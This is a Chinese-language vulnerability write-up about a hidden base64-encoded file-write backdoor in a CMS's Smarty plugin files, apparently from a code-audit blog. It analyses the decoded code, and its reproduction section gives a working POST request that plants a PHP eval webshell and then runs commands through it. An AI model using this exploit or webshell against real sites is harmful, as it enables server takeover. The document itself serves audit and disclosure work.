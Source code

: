 ### 漏洞信息
- 漏洞公开时间: 2018/03/12
- 影响版本:V5.8
- 利用难度:1
- 挖掘难度:2.5

### 漏洞说明
此漏洞乍看起来像似黑客留下的后门，实则更有可能是厂商开发出来对付盗版的方法。由于在代码文件中存在一段base64编码的能够任意写入文件的代码，导致攻击者能够利用这个文件写入webshell。

### 漏洞分析
文件位于`lib/smarty/plugins/function.php`，代码如下：

![](img/20180312-1.jpg)

对其中的代码直接进行base64编码之后，得到的主要代码如下所示：

![](img/20180312-2.jpg)

对其中的主要部分进行了标注。接下来进行分析。
1. 对`$codelock_file`进行判断。如果不存在，则直接退出，这也就意味着我们不能直接利用这个代码，需要找到对`$codelock_file`已经定义了的文件才可以。
2. `@extract($_REQUEST);`典型的变量覆盖的问题。如此，那么接下来在此文件中的所有的变量如果没有进行初始化赋值，那么都能够被覆盖。
3. `$codelock_fp2 = @fopen("$codelock_filed/$codelock_enc", "wb");`创建文件。
4. `@fwrite($codelock_fp2, $codelock_masterdata);`写入文件。

通过分析，我们只要能够绕过对`$codelock_file`的校验，那么就能够写入webshell了。接下来的问题我们就需要找到对`$codelock_file`进行了定义同时引入了`function.php`的文件。

文件`lib/smarty/plugins/modifier.config.php`就符合上述的要求。

![](img/20180312-3.jpg)

如此，整个漏洞利用就非常简单了。直接访问`modifier.config.php`,写入webshell即可。

### 漏洞复现
访问如下：
```
URL:http://localhost/lib/smarty/plugins/modifier.config.php
POST:codelock_filed=.&codelock_mastersize=3&codelock_act=3&codelock_enc=XiaoZe.php&codelock_masterdata=<?php @eval($_POST[X]);?>
``` 
即会在当前目录下生成内容为`<?php @eval($_POST[X]);?>`的`XiaoZe.php`文件。

访问：
```
URL:http://localhost/lib/smarty/plugins/Xiaoze.php
POST:X=phpinfo();
```
即可显示phpinfo信息，整个漏洞利用完成。

### 总结
这个问题其实和appcms那么后门程序类似。这些问题是不是可以给我们一个思路，在审计一个cms之前，先使用D盾工具对这些cms扫描一遍，看是否存在一句话文件。